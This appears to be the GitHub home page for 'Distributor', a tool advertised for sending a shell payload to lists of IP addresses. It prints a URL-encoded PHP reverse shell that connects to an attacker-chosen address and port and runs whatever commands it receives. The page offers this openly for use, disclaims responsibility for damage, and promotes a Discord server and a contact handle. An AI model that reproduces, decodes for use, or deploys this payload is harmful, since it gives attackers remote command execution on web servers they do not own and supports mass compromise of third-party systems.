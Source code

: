 ## Welcome to Distributor Home Page

Distributor is a Tool that sends Payload to multiple IP's (in a list) or single IP u input. The Payload will create an answer with given commands for a Reverse- / Bind Shell.

### Note

Im not responsible for any Damage you'll do!

```markdown
The Payload Looks like this ==>
`%3c%3f%70%68%70%20%24%61%64%64%72%3d%24%5f%52%45%51%55%45%53%54%5b%27%61%64%64%72%27%5d%3b%24%70%6f%72%74%3d%24%5f%52%45%51%55%45%53%54%5b%27%70%6f%72%74%27%5d%3b%69%66%20%28%21%28%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%24%61%64%64%72%2c%24%70%6f%72%74%29%29%29%64%69%65%3b%77%68%69%6c%65%20%28%21%66%65%6f%66%28%24%73%6f%63%6b%29%29%20%20%7b%24%63%6d%64%20%20%3d%20%66%67%65%74%73%28%24%73%6f%63%6b%29%3b%24%70%69%70%65%20%3d%20%70%6f%70%65%6e%28%24%63%6d%64%2c%27%72%27%29%3b%77%68%69%6c%65%20%28%21%66%65%6f%66%28%24%70%69%70%65%29%29%66%77%72%69%74%65%20%28%24%73%6f%63%6b%2c%20%66%67%65%74%73%28%24%70%69%70%65%29%29%3b%70%63%6c%6f%73%65%28%24%70%69%70%65%29%3b%7d%66%63%6c%6f%73%65%28%24%73%6f%63%6b%29%3b%3f%3e`

Bevore u look for other tools because Distributor hasn't enough feautures, just Remember:
1. This tool is in developing. For ideas etc. join my DC https://discord.gg/QCY6CuajqK.
2. It will be one of the best payloaders ever!
3. You can help us developing and more.

Fore more details dm me : ASM_Royal#9532
```

### A small Showcase

![unknown](https://user-images.githubusercontent.com/89786570/180613217-ce41f9ec-b2b5-440b-a181-c25701de1655.png)

![unknown1](https://user-images.githubusercontent.com/89786570/180613221-552e9fd6-a57c-4327-acb3-fd175fbafecf.png)
